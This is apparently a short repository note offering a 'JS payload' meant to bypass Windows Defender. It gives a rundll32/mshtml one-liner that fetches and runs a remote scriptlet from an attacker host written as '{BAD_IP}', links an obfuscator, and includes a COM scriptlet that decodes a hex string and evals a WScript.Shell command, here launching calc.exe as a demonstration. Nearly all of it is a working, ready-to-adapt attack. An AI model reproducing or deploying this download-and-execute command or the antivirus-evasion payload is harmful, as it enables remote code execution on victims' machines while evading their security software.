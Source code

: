 JS payload + bypass windows defender
Obfuscator: https://codebeautify.org/javascript-obfuscator
CMD command: rundll32.exe javascript:"\..\..\..\mshtml, RunHTMLApplication ";document.write();GetObject("script"+":"+"http://{BAD_IP}/JSpayload.tmp")
Original: http://hyp3rlinx.altervista.org/advisories/MICROSOFT_WINDOWS_DEFENDER_DETECTION_BYPASS.txt

{PAYLOAD BEFORE OBFUSCATION}

<?xml version="1.0"?>
<component>
<script>
<![CDATA[
var hex = "6E657720416374697665584F626A6563742822575363726970742E5368656C6C22292E52756E282263616C632E6578652229";

// Hex string is -> new ActiveXObject("WScript.Shell").Run("calc.exe")

var str = '';
for (var n = 0; n < hex.length; n += 2) {
str += String.fromCharCode(parseInt(hex.substr(n, 2), 16));
}
eval(str)
]]>
</script>
</component>
